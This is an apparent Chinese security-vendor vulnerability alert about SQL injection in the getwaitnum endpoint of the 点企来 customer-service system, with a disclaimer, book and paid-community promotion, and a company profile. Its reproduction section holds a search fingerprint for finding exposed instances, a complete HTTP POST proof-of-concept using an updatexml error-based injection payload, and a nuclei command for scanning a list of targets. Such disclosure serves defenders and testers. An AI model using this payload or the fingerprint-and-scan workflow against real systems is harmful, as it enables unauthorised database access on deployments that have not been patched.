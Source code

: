#  漏洞预警 点企来 客服系统 getwaitnum sql注入漏洞   
by 融云安全-sm  融云攻防实验室   2024-08-23 17:49  
  
**0x01 阅读须知**  
  
**融云安全的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！******  
  
**0x02 好书推荐**  
  
**-《白帽子讲Web安全（第二版）》简介：**  
这是一  
本全面而深入的Web安全指南，专为渴望掌握现代Web安全技术与实战技巧的安全爱好者、开发人员及安全专家精心打造。本书不仅覆盖了Web安全的基础理论知识，还深入剖析了各类常见漏洞的成因、影响及防御策略，同时结合实战案例与先进工具，使读者能够迅速提升Web安全防护与渗透测试的能力。  
  
  
  
  
**0x03 漏洞描述**  
  
点企来 客服系统 getwaitnum存在sql注入漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49xXF5PTclicfiaBkS0Aosic3TArPMeicV8oIX2DWSPysb9AE6Xlu0A2QsFib60xh5jFyWE6qPzmCWzkkhQ/640?wx_fmt=png&from=appmsg "")  
  
**0x04 漏洞复现**  
  
**body="layui-form-item" && body="/admin/login/check.html"**  
  
1.执行poc SQL查询md5，得到结果  
```
POST /admin/event/getwaitnum HTTP/2
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: keep-alive
Content-Length: 84
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate, br

business_id[]=exp&business_id[]=+and+updatexml(1,concat(0x7e,md5(0x5c)),1)&groupid=1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49xXF5PTclicfiaBkS0Aosic3TAq8cE9ozgPC1n98sQaEhQ1exQkhKvVFeia8E9AY8qYQ10NJA6Z3phaxw/640?wx_fmt=png&from=appmsg "")  
  
2.nuclei验证脚本已发布于知识星球  
```
nuclei.exe -t dianqilai-kfxt-getwaitnum-sql.yaml -l subs.txt -stats
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49xXF5PTclicfiaBkS0Aosic3TA7304icB2VFsFIK7BSp16InJvrBGKOLtQibN2ccN47P31NicDw1XQGNOHQ/640?wx_fmt=png&from=appmsg "")  
  
**加入星球请扫描下方二维码，更多精，敬请期待！**  
  
👇👇👇  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/GWXBjgPE49zs4eNkNzwGvylxKjRnH2aibQqdbEUPicwHRpyuIhk7YdcECWw9kZGCibot3aRDzS4ADTmywx57c7QBw/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
****  
**星球亮点：**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49wOibwjXDprJGvrk2gbZcTcOtD9ztDD6NyMvkNhUuMN8yPWicCI7MjOWvTQibLgQsXUqBPY0jPwHzQ6A/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**0x05 公司简介**  
  
江西渝融云安全科技有限公司，2017年发展至今，已成为了一家集云安全、物联网安全、数据安全、等保建设、风险评估、信息技术应用创新及网络安全人才培训为一体的本地化高科技公司，是江西省信息安全产业链企业和江西省政府部门重点行业网络安全事件应急响应队伍成员。  
    公司现已获得信息安全集成三级、信息系统安全运维三级、风险评估三级等多项资质认证，拥有软件著作权十八项；荣获2020年全国工控安全深度行安全攻防对抗赛三等奖；庆祝建党100周年活动信息安全应急保障优秀案例等荣誉......  
  
**编制：sm**  
  
**审核：fjh**  
  
**审核：Dog**  
  
****  
**1个1朵********5毛钱**  
  
**天天搬砖的小M**  
  
**能不能吃顿好的**  
  
**就看你们的啦**  
  
****  
  
